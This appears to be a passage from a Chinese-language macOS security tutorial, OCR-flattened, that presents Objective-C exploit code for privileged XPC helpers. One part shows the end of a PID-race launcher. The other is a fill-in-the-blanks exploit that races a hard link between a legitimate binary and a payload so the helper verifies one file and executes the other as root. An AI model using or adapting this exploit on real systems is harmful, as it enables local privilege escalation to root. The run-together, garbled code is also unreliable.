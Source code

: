 ```objectivec

return true;
}

int main(int argc, const char * argv[]) {

if(argc > 1) {
// called from the NSTasks
child();

} else {
NSLog(@"Starting the race");
create_nstasks();
}

return 0;
}
```



这个示例使用原始的 \*\*\`fork\`\*\* 来启动 \*\*利用 PID 竞争条件的子进程\*\*，然后利用 \*\*通过硬链接实现的另一个竞争条件\*\*： \`\`\`objectivec // export OBJC\_DISABLE\_INITIALIZE\_FORK\_SAFETY=YES // gcc -framework Foundation expl.m -o expl

\#include \<Foundation/Foundation.h> #include \<spawn.h> #include \<pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS @protocol HelperProtocol

* (void)DoSomething:(void (^)(\_Bool))arg1; @end

// Global flag to track exploitation status bool pwned = false;

/\*\*

* Continuously overwrite the contents of the 'hard\_link' file in a race condition to make the
* XPC service verify the legit binary and then execute as root out payload. \*/ void \*check\_race(void \*arg) { while(!pwned) { // Overwrite with contents of the legit binary system("cat ./legit\_bin > hard\_link"); usleep(50000);

// Overwrite with contents of the payload to execute // TODO: COMPILE YOUR OWN PAYLOAD BIN system("cat ./payload > hard\_link"); usleep(50000); } return NULL; }

void child\_xpc\_pid\_rc\_abuse(){ // TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION #define kValid "./Legit Updater.app/Contents/MacOS/Legit" extern char \*\*environ;

// Connect with XPC service // TODO: CHANGE THE ID OF THE XPC TO EXPLOIT NSString\* service\_name = @"com.example.Helper"; NSXPCConnection\* connection = \[\[NSXPCConnection alloc] initWithMachServiceName:service\_name options:0x1000]; // TODO: CNAGE THE PROTOCOL NAME NSXPCInterface\* interface = \[NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)]; \[connection setRemoteObjectInterface:interface]; \[connection resume];

id obj = \[connection remoteObjectProxyWithErrorHandler:^(NSError\* error) { NSLog(@"\[-] Something went wrong"); NSLog(@"\[-] Error: %@", error); }];

NSLog(@"obj: %@", obj); NSLog(@"conn: %@", connection);

// Call vulenrable XPC function // TODO: CHANEG NAME OF FUNCTION TO CALL \[obj DoSomething:^(\_Bool b){ NSLog(@"Response, %hdd", b); }];
